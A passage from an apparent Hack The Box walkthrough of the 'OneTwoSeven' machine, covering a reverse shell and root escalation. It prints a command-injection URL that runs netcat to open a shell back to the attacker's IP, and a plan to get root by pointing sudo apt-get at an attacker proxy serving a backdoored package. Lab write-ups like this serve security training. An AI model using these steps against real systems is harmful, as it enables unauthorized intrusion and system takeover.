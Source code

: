 ## Low-Privilege Shell

With remote command execution, we can get ourselves a low-privilege shell with `nc`.

```
http://onetwoseven.htb:60080/menu.php?addon=ots-endgame.php&0=nc 10.10.12.49 1234 -e /bin/bash
```

<a class="image-popup">
![aec0f561.png](/assets/images/posts/onetwoseven-htb-walkthrough/aec0f561.png)
</a>

Let's [upgrade](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) the shell to a full TTY.

<a class="image-popup">
![883cd4ed.png](/assets/images/posts/onetwoseven-htb-walkthrough/883cd4ed.png)
</a>

## Privilege Escalation

During enumeration of `www-admin-data`'s account, I noticed that `www-admin-data` is able to `sudo` `apt-get update`, `apt-get upgrade`, and preserve certain environment variables.

<a class="image-popup">
![2097c992.png](/assets/images/posts/onetwoseven-htb-walkthrough/2097c992.png)
</a>

And if you check `/etc/apt/source.list.d/onetwoseven.list` then the road to `root` is imminent.

<a class="image-popup">
![7ee640f6.png](/assets/images/posts/onetwoseven-htb-walkthrough/7ee640f6.png)
</a>

Here's the game plan:

1. Map `packages.onetwoseven.htb` to `127.0.0.1` in `/etc/hosts`
2. Set up a HTTP proxy server on my attacking machine. Burp will do fine, just change the interface to `tun0`.
3. Set up a fake repository with a package release having a higher version number and a backdoored DEB package.
4. Run `sudo http_proxy=http://10.10.12.49:8080 apt-get update`
5. Run `sudo http_proxy=http://10.10.12.49:8080 apt-get upgrade`
6. Claim the prize.
